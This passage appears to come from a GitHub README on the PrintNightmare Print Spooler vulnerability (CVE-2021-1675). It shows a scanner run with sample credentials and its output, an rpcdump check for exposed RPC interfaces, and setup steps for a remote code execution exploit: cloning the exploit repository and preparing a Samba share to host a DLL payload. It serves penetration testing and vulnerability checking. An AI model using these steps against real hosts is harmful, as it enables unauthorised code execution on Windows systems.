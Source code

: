 ```plain
$ sudo docker run -it itwasalladream -u johndo -p Welkom1234 -d domain 10.10.10.10
[itwasalladream] INFO - 10.10.10.10 is not vulnerable over MS-PAR. Reason: Print Spooler service is not running or inbound remote printing is disabled.
[itwasalladream] INFO - 10.10.10.10 is not vulnerable over MS-RPRN. Reason: Print Spooler service is not running or inbound remote printing is disabled.
```

#### Scanner example (poetry)

```plain
itwasalladream -u johndo -p Welkom1234 -d domain 10.10.10.10
[itwasalladream] INFO - 10.10.10.10 is not vulnerable over MS-PAR. Reason: Print Spooler service is not running or inbound remote printing is disabled.
[itwasalladream] INFO - 10.10.10.10 is not vulnerable over MS-RPRN. Reason: Print Spooler service is not running or inbound remote printing is disabled.
```

#### RPC Dump

If you can reach these RPC interfaces you might be able to use printnightmare.

```bash
rpcdump.py @ip | egrep 'MS-RPRN|MS-PAR'
```

## Setup tool for remote RCE (cube0x0)

Ensure you have a impacket version that has [this PR](https://github.com/SecureAuthCorp/impacket/pull/1109) merged.

```bash
mkdir printnightmare
cd printnightmare
mkdir payloads
git clone https://github.com/justin-p/CVE-2021-1675
```

Then if you are lazy just use the [Taskfile](https://taskfile.dev/#/) included in the repo.

```bash
task payload_folder
task printnightmare_samba_share
```

To restore the smb.conf and stop the service run

```bash
task restore_samba
```

Otherwise use the steps below

### Host Dll

Make a backup of your smb.conf

```bash
sudo cp /etc/samba/smb.conf etc/samba/smb.conf.bak
```

